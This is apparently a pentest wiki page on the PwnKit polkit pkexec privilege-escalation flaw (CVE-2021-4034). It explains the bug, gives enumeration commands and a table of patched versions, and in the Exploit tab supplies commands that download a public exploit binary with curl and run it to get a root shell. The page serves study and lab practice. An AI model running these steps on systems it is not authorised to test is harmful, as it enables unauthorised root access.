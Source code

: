 ```yaml
---
description: CVE-2021-4034
---
```


# PwnKit

## Theory

CVE-2021-4034 (pwnkit) was discovered by researchers at [Qualys](https://www.qualys.com/). The vulnerability has existed in every version of the "Policy Toolkit" (or, Polkit) package **since it was first released in 2009** and allows any unprivileged attacker to easily obtain full administrative access over any Linux machine with the Polkit package installed. **Polkit is installed by default on most distributions of Linux**, making this vulnerability _extremely_ widespread. The Pwnkit vulnerability exists in the pkexec utility. The pkexec command is used by authorized users to execute commands at elevated privileges (like using sudo).

**Pkexec** attempts to parse any command-line arguments that we pass it using a for-loop, starting at the index 1 to offset the name of the program and obtain the first real argument. The name of the program is irrelevant to argument parsing, so the indexing is simply offset to ignore it. But if we don't provide any arguments, the index is permanently set to 1. This becomes a problem later when pkexec attempts to write to the value of the argument at index n. As there are no command-line arguments, there is no argument at index n — instead the program overwrites the next thing in memory, which just so happens to be the first value in the list of environment variables when the program is called using a C function called execve(). In other words, by passing pkexec a null list of arguments, we can **force it to** **overwrite an environment variable** instead! - [TryHackMe](https://tryhackme.com/room/pwnkit)

## Practice

{% tabs %}
{% tab title="Enumeration" %}
To make the PwnKit exploit working. The SUID bit on the pkexec binary must be set

```bash
$ find / -type f -name *pkexec* -perm -4000 2>/dev/null
/usr/bin/pkexec
```

Check if the policykit package is vulnerable

```bash
#Debian/Ubuntu
apt list --installed | grep -i polkit

#RHEL/CentOs/Fedora
rpm -qa | grep -i polkit

#SUE
zypper search -i polkit

#Oracle Linux
pkginfo | grep -i polkit
```

Here is a summary table of patched versions by OS. Earlier versions are vulnerable

<table><thead><tr><th width="228.5">OS Version</th><th>Patched version</th></tr></thead><tbody><tr><td>CentOS 7</td><td>polkit-0.112-26.el7_9.1</td></tr><tr><td>CentOS 8</td><td>polkit-0.115-13.el8_5.1</td></tr><tr><td>Debian 9</td><td>policykit-1_0.105-18+deb9u2</td></tr><tr><td>Debian 10</td><td>policykit-1_0.105-25+deb10u1</td></tr><tr><td>Debian 11</td><td>policykit-1_0.105-31+deb11u1</td></tr><tr><td>Oracle Linux 6</td><td>polkit-0.96-11.0.1.el6_10.1</td></tr><tr><td>Oracle Linux 7</td><td>polkit-0.112-26.0.1.el7_9.1</td></tr><tr><td>Oracle Linux 8</td><td>polkit-0.115-13.0.1.el8_5.1</td></tr><tr><td>SUSE Linux Enterprise Server 12</td><td>polkit-debugsource-0.113-5.24.1</td></tr><tr><td>SUSE Linux Enterprise Server 15 LTSS et SP1</td><td>polkit-debugsource-0.116-3.6.1</td></tr><tr><td>SUSE Linux Enterprise Server 15 SP2</td><td>polkit-debugsource-0.114-3.15.1</td></tr><tr><td>Red Hat 6</td><td>polkit-0.96-11.el6_10.2</td></tr><tr><td>Red Hat 7</td><td>polkit-0.112-26.el7_9.1</td></tr><tr><td>Red Hat 8</td><td>polkit-0.115-13.el8_5.1</td></tr><tr><td>Ubuntu 18.04</td><td>policykit-1-0.105-20ubuntu0.18.04.6</td></tr><tr><td>Ubuntu 20.04</td><td>policykit-1-0.105-26ubuntu1.2</td></tr><tr><td>Ubuntu 21.10</td><td>policykit-1-0.105-31ubuntu0.1</td></tr><tr><td>Fedora 34</td><td>polkit-0.117-3.fc34.2</td></tr><tr><td>Fedora 35</td><td>polkit-0.120-1.fc35.1</td></tr><tr><td>Anolis OS 7</td><td>polkit-0.112-26.an7.1</td></tr><tr><td>Anolis OS 8</td><td>polkit-0.115-13.an8_5.1</td></tr><tr><td>Alibaba Cloud Linux 2</td><td>polkit-0.112-26.3.al7.1</td></tr><tr><td>Alibaba Cloud Linux 3</td><td>polkit-0.115-13.al8.1</td></tr></tbody></table>
{% endtab %}

{% tab title="Exploit" %}
We can use [this exploit](https://github.com/ly4k/PwnKit) made by ly4k. It should work out of the box on vulnerable Linux distributions based on Ubuntu, Debian, Fedora, and CentOS.

```bash
#Run the exploit
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
chmod +x ./PwnKit
./PwnKit        # interactive shell
./PwnKit 'id'   # single command

# Or you may want to compile it by yourself
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
```

Alternativly, we can use [this exploit](https://github.com/arthepsy/CVE-2021-4034) made by arthepsy

```bash
gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
./cve-2021-4034-poc
```
{% endtab %}
{% endtabs %}

## Ressource

{% embed url="https://ine.com/blog/exploiting-pwnkit-cve-20214034" %}

{% embed url="https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034" %}

{% embed url="https://tryhackme.com/room/pwnkit" %}

{% embed url="https://cyberwatch.fr/cve/cve-2021-4034/" %}
